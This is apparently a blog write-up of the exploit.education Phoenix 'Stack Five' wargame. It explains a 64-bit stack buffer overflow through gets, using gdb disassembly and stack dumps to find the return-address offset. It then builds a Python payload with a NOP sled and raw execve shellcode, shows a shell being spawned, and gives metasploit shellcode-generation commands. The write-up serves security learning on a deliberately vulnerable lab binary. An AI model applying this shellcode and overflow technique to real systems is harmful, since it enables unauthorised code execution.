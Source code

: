 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x5"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 5

Write-up for: [https://exploit.education/phoenix/stack-five/][Stack Five]

<!--more-->

We will use this example as an intro to 64-bit exploitation (mostly because I failed the 32-bit version :P)

1. Identify the vulnerability

The call to `gets` in `start_level` is not bounds-checked. Thus, we can overflow the `buffer` variable by providing input longer than 128 bytes. The goal is to overwrite the stored return address and jump to our own shellcode.

2. Plan of action

Since there is no ASLR and the stack is executable, our payload should look something like this on the stack:

```
[NOP sled]
[execve("/bin/dash") shellcode]
[NOP padding]
[Address of buffer to return to NOP sled]
```

3. Exploit development

In order to exploit this bug, we must first find the address of the buffer and, more importantly, the offset of the return address. We'll use gdb:

```
(gdb) disas main
Dump of assembler code for function main:
0x00000000004005a4 <+0>:     push   %rbp
0x00000000004005a5 <+1>:     mov    %rsp,%rbp
0x00000000004005a8 <+4>:     sub    $0x10,%rsp
0x00000000004005ac <+8>:     mov    %edi,-0x4(%rbp)
0x00000000004005af <+11>:    mov    %rsi,-0x10(%rbp)
0x00000000004005b3 <+15>:    mov    $0x400620,%edi
0x00000000004005b8 <+20>:    callq  0x400400 <puts@plt>
0x00000000004005bd <+25>:    mov    $0x0,%eax
0x00000000004005c2 <+30>:    callq  0x40058d <start_level>
0x00000000004005c7 <+35>:    mov    $0x0,%eax
```

To find the stack address of the stored return address we can set a breakpoint
in `start_level` and inspect the stack. On the stack, we are looking for `4005c7`because this is where we will return to.
We can additionally provide some input to the program to find the address of the `buffer` variable.

```
(gdb) break start_level
Breakpoint 1 at 0x400591

(gdb) disas start_level
Dump of assembler code for function start_level:
0x000000000040058d <+0>:     push   %rbp
0x000000000040058e <+1>:     mov    %rsp,%rbp
=> 0x0000000000400591 <+4>:     add    $0xffffffffffffff80,%rsp
0x0000000000400595 <+8>:     lea    -0x80(%rbp),%rax
0x0000000000400599 <+12>:    mov    %rax,%rdi
0x000000000040059c <+15>:    callq  0x4003f0 <gets@plt>
0x00000000004005a1 <+20>:    nop
0x00000000004005a2 <+21>:    leaveq
0x00000000004005a3 <+22>:    retq
End of assembler dump.

(gdb) break *start_level+20
Breakpoint 2 at 0x4005a1

(gdb) c
Continuing.
AAAAA

Breakpoint 2, 0x00000000004005a1 in start_level ()

(gdb) x/64xw $rsp
0x7fffffffe490: 0x41414141      0x00000041      0x00400620      0x00000000
0x7fffffffe4a0: 0x004005a4      0x00000000      0x00000000      0x00000000
0x7fffffffe4b0: 0x00000000      0x00000000      0xf7db6dde      0x00007fff
0x7fffffffe4c0: 0x004005a4      0x00000000      0x00680037      0x00000000
0x7fffffffe4d0: 0x00000000      0x00000000      0xf7db6b1e      0x00007fff
0x7fffffffe4e0: 0xf7ffb300      0x00007fff      0x00000000      0x0a000000
0x7fffffffe4f0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe500: 0xffffe588      0x00007fff      0xffffe530      0x00007fff
0x7fffffffe510: 0xffffe530      0x00007fff      0x004005c7      0x00000000
0x7fffffffe520: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe530: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe540: 0x00000000      0x00000000      0xffffe580      0x00007fff
0x7fffffffe550: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
0x7fffffffe560: 0x00003e00      0x04000001      0x00400459      0x00000000
0x7fffffffe570: 0x00000000      0x00000000      0x00400436      0x00000000
0x7fffffffe580: 0x00000001      0x00000000      0xffffe7cc      0x00007fff
```

First, we break on `start_level` to then disassemble the function to find the end of the function. Note that we could have directly disassembled the function saving us one breakpoint. We run the program with some valid input. Then we inspect the stack (note, it's `$rsp` instead of `$esp`. We're dealing with a 64-bit register now).

Inspecting the stack gives us the following data:

- buffer address: 0x7fffffffe490
- return address location: 0x7fffffffe518 
- offset: 136

Using this information we can craft a payload:

```python
buf = "\x90" * 20
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buf += "\x90"* (136 - len(buf)) + "\x7f\xff\xff\xff\xe4\xe0"[::-1]
print buf
```

The shellcode is from http://shell-storm.org/shellcode/files/shellcode-806.php

We start with a NOP sled to give us some flexibility with the exact location of the shellcode. Next, we place our shellcode in the buffer. This is what will be executed later. We fill the remaining space of the buffer with NOPs and overwrite the non-null part of the stored return address with what we believe is an address somewhere in our NOP sled. 

It's very important to note that the location of the stack might differ in gdb since it places additional environment variables before the stack.
To emulate a more realistic execution environment, you can unset these variables in gdb before executing the program:

```
unset env LINES
unset env COLUMNS
```

See also: https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code

Even then, some experimentation with the return address and the length of the NOP slide might be required.

# Exploit

Now we are ready to run the exploit:

```
user@phoenix-amd64:/opt/phoenix/amd64$ python ~/stack-five.py > ~/stack-five
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-five < ~/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:/opt/phoenix/amd64$
```

Nothing happened? The reason is that using input redirection with `<` immediately terminates the program once the end of input is reached. Instead we need to pipe in the input with `cat ~/stack-five - | ./stack-five`. The `-` keeps stdin open. 

```
user@phoenix-amd64:/opt/phoenix/amd64$ whoami
user
user@phoenix-amd64:/opt/phoenix/amd64$ cat ~/stack-five - | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

We popped a shell! Awesome :)

# Alternative, generate shellcode with metasploit 
```
  use payload/linux/x64/exec
  info
  set CMD /bin/sh
  info
  generate -b '\x00' -f python
```
